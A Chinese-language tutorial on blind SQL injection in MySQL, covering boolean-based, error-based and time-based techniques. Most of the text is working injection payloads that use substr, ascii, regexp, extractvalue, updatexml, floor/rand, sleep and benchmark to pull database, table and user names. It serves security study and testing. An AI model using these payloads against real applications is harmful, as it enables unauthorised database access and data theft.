 # SQL盲注基础知识
## 基于布尔SQL盲注----------构造逻辑判断
**Sql注入截取字符串常用函数**

三大法宝：mid(),substr(),left()

**mid()函数**

此函数为截取字符串一部分。MID(column_name,start[,length])  
column_name：必需。要提取字符的字段。  
start：必需。规定开始位置（起始值是 1）。  
length：可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本。  
Eg:      str="123456"     mid(str,2,1)    结果为2  
Sql用例：  
>（1）MID(DATABASE(),1,1)>’a’,查看数据库名第一位，MID(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。
>（2）MID((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处column_name参数可以为sql语句，可自行构造sql语句进行注入。  

 **substr()函数**  
   Substr()和substring()函数实现的功能是一样的，均为截取字符串。  
   + string substring(string, start, length)
   + string substr(string, start, length)

参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。  
Sql用例：  
>(1) substr(DATABASE(),1,1)>’a’,查看数据库名第一位，substr(DATABASE(),2,1)查看数据库名第二位，依次查看各位字符。  
>(2) substr((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE T table_schema=0xxxxxxx LIMIT 0,1),1,1)>’a’此处string参数可以为sql语句，可自行构造sql语句进行注入。  

**Left()函数**
Left()得到字符串左部指定个数的字符  
Left ( string, n )        string为要截取的字符串，n为长度。  
Sql用例：  

>(1) left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位。  
>(2) 同样的string可以为自行构造的sql语句。

同时也要介绍 **ORD()** 函数，此函数为返回第一个字符的ASCII码，经常与上面的函数进行组合使用。
例如ORD(MID(DATABASE(),1,1))>114 意为检测database()的第一位ASCII码是否大于114，也即是‘r’
类似的还有**ascii()函数**：  
`ascii(substr((select table_name from information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+ `   
//substr()函数，ascii()函数  
Explain：substr(a,b,c)从b位置开始，截取字符串a的c长度。Ascii()将某个字符转换为ascii值  
**▲ascii(substr((select database()),1,1))=98**  
**▲regexp正则注入**  

正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html  
用法介绍：select user() regexp '^[a-z]';  
Explain：正则表达式的用法，user()结果为root，regexp为匹配root的正则表达式。  
第二位可以用`select user() regexp '^ro'`来进行。  

当正确的时候显示结果为1，不正确的时候显示结果为0.  
示例介绍：  
>select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));  
>select * from users where id=1 and 1=(user() regexp'^ri');

通过if语句的条件判断，返回一些条件句，比如if等构造一个判断。根据返回结果是否等于0或者1进行判断。  
`select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);`

这里利用select构造了一个判断语句。我们只需要更换regexp表达式即可  
`'^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' -> '^user[a-z]' -> FALSE`

如何知道匹配结束了？这里大部分根据一般的命名方式（经验）就可以判断。但是如何你在无法判断的情况下，可以用table_name regexp '^username$'来进行判断。^是从开头进行匹配，$是从结尾开始判断。更多的语法可以参考mysql使用手册进行了解。  
好，这里思考一个问题，table_name有好几个，我们只得到了一个user，如何知道其他的？  
这里可能会有人认为使用limit 0，1改为limit 1,1。  
但是这种做法是错误的，limit作用在前面的select语句中，而不是regexp。那我们该如何选择。其实在regexp中我们是取匹配table_name中的内容，只要table_name中有的内容，我们用regexp都能够匹配到。因此上述语句不仅仅可以选择user，还可以匹配其他项。即，table_name中包含了所有的表名，除了匹配到user表之外，还可以继续匹配其他表，只需更改匹配规则即可。

**▲like匹配注入**  
和上述的正则类似，mysql在匹配的时候我们可以用ike进行匹配。
用法：select user() like ‘ro%’


## 基于报错的SQL盲注------构造payload让信息通过错误提示回显出来
**▲floor  rand  group by**  
`Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;  `   

//explain:此处有三个点，一是需要concat计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql 的bug 的问题。但是此处需要将rand(0)，rand()需要多试几次才行。  
以上语句可以简化成如下的形式。
`select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))`

如果关键的表被禁用了，可以使用这种形式  
`select count(*) from (select 1 union select null union select !1) group by concat(version(),floor(rand(0)*2))`  

如果rand被禁用了可以使用用户变量来报错  
`select min(@a:=1) from information_schema.tables group by concat(user(),@a:=(@a+1)%2)`

用户变量：以"@"开始，形式为"@变量名"。用户变量跟mysql客户端是绑定的，设置的变量，只对当前用户使用的客户端生效

```
mysql> SELECT @t1:=(@t2:=1)+@t3:=4,@t1,@t2,@t3;
+----------------------+------+------+------+
| @t1:=(@t2:=1)+@t3:=4 | @t1  | @t2  | @t3  |
+----------------------+------+------+------+
|                    5 | 5    | 1    | 4    |
+----------------------+------+------+------+
```

解释：@t2:=1 给t2赋值为1，@t3:=4 给t3赋值为4，两这个相加后赋值给t1.  
▲select exp(~(select * FROM(SELECT USER())a))         //double数值类型超出范围  
 //Exp()为以e为底的对数函数；版本在5.5.5及其以上  
可以参考exp报错文章：http://www.cnblogs.com/lcamry/articles/5509124.html  
▲select !(select * from (select user())x) -（ps:这是减号） ~0  
//bigint超出范围；~0是对0逐位取反，很大的版本在5.5.5及其以上  
可以参考文章bigint溢出文章http://www.cnblogs.com/lcamry/articles/5509112.html  
▲extractvalue(1,concat(0x7e,(select @@version),0x7e))  se//mysql对xml数据进行查询和修改的xpath函数，xpath语法错误  
**ExtractValue(xml_str , Xpath)** 函数,使用Xpath表示法从XML格式的字符串中提取一个值  
**ExtractValue()**  函数中任意一个参数为NULL,返回值都是NULL.  
如果我们构造了不符合规定的Xpath,MySQL就会报语法错误,并显示XPath的内容.  
报错会从遇到的第一个特殊字符处开始报错.直到结束.但是报错的长度是有限制的.  

MariaDB [information_schema]> select extractvalue(1,concat(0x7e,(select @@version),0x7e));
ERROR 1105 (HY000): XPATH syntax error: '~10.1.9-MariaDB~'

**▲updatexml(1,concat(0x7e,(select @@version),0x7e),1)**   //mysql对xml数据进行查询和修改的xpath函数，xpath语法错误  
**▲select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;**  
//mysql重复特性，此处重复了version，所以报错。  
好像只有version()函数才可以使用，其他如user()等会报不正确的参数错误，函数不能执行。  
>NAME_CONST(name,value)  
Returns the given value. When used to produce a result set column, NAME_CONST() causes the column to have the given name. The arguments should be constants.
```
mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+ 
```

## 基于时间的SQL盲注----------延时注入  
**▲If(ascii(substr(database(),1,1))>115,0,sleep(5))%23 **  //if判断语句，条件为假，执行sleep  
**▲UNION SELECT IF(SUBSTRING(current,1,1)=CHAR(119),BENCHMARK(5000000,ENCODE(‘MSG’,’by 5 seconds’)),null) FROM (select database() as current) as tb1;**   

//BENCHMARK(count,expr)用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()
